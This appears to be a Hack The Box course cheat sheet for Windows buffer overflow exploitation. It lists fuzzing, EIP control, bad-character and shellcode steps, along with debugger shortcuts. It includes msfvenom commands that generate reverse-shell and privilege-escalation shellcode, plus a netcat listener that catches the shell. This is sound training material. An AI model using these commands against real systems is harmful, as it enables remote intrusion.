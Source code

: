 ## Buffer Overflow Steps

1. Fuzzing Parameters
2. Controlling EIP
3. Identifying Bad Characters
4. Finding a Return Instruction
5. Jumping to Shellcode

## Commands

| Command | Description |
| ----- | ----- |
| **General** |
| `xfreerdp /v:<target IP address> /u:htb-student /p:<password>` | RDP to Windows VM |
| `/usr/bin/msf-pattern_create -l 5000` | Create Pattern |
| `/usr/bin/msf-pattern_offset -q 31684630` | Find Pattern Offset |
| `netstat -a \|findstr LISTEN` | List listening ports on a Windows machine |
| `.\nc.exe 127.0.0.1 8888` | Interact with port |
| `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'` | Generate Local Privesc Shellcode |
| `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'` | Generate Reverse Shell Shellcode |
| `nc -lvnp 1234` | Listen for reverse shell |
| **x32dbg** |
| `F3` | Open file |
| `alt+A` | Attach to a process |
| `alt+L` | Go to Logs Tab |
| `alt+E` | Go to Symbols Tab |
| `ctrl+f` | Search for instruction |
| `ctrl+b` | Search for pattern |
| `Search For>All Modules>Command` | Search all loaded modules for instruction |
| `Search For>All Modules>Pattern` | Search all loaded modules for pattern |
| **ERC** |
| `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\` | Configure Working Directory |
| `ERC --pattern c 5000` | Create Pattern |
| `ERC --pattern o 1hF0` | Find Pattern Offset |
| `ERC --bytearray` | Generate All Characters Byte Array |
| `ERC --bytearray -bytes 0x00` | Generate Byte Array excluding certain bytes |
| `ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin` | Compare bytes in memory to a Byte Array file |
| `ERC --ModuleInfo` | List loaded modules and their memory protections |
| **Python** |
| `python -c "print('A'*10000)"` | Print fuzzing payload |
| `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"` | Write fuzzing payload to a file |
| `breakpoint()` | Add breakpoint to Python exploit |
| `c` | Continue from breakpoint |
